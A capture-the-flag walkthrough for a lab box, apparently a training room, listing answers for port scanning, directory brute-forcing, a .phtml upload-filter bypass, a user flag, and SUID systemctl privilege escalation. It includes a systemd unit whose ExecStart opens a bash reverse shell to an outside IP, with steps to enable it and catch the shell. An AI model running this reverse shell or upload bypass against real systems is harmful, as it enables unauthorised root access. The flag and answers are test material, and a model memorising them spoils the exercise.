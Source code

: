 # Section 1: Reconnaissance
## 1.
Skip

## 2. Scan the box, how many ports are open?
```
1. 21/tcp   open  ftp         vsftpd 3.0.3
2. 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
3. 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4. 445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
5. 3128/tcp open  http-proxy  Squid http proxy 3.5.12
6. 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```
6

## 3. What version of the squid proxy is running on the machine?
3.5.12

## 6. What is the most likely operating system this machine is running?
Ubuntu

## 7. What port is the web server running on?
3333

# Section 2: Locating directories using GoBuster
## 2.
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/internal (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
```
/internal/

# Section 3: Compromise the webserver
## 1. Try upload a few file types to the server, what common extension seems to be blocked?
.php

## 3. Sniper attack, what is the allowed extension?
.phtml

## 5. What is the name of the user who manages the webserver?
bill

## 6. What is the user flag?
8bd7992fbe8a6ad22a63361004cfcedb

# Section 4: Privilege Escalation
## 1. On the system, search for all SUID files. What file stands out?
First, search for exploitable files: `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

Knowing that systemctl is exploitable requires a bit of linux knowledge, but basically it manages
services, many of which require root priliveges. You can take advantage of this by writing a
malicious service.

## Exploitation
### root.service
```
[Unit]
Description=rooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.15.69/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

1. Upload root.service to the server (disguised as root.phtml), rename it to root.service
2. Add the service `/bin/systemctl enable /var/www/html/internal/uploads/root.service`
3. Start listener `ncat -lvp 9999`
4. Start the service `/bin/systemctl start root`
5. !@#$% Root access

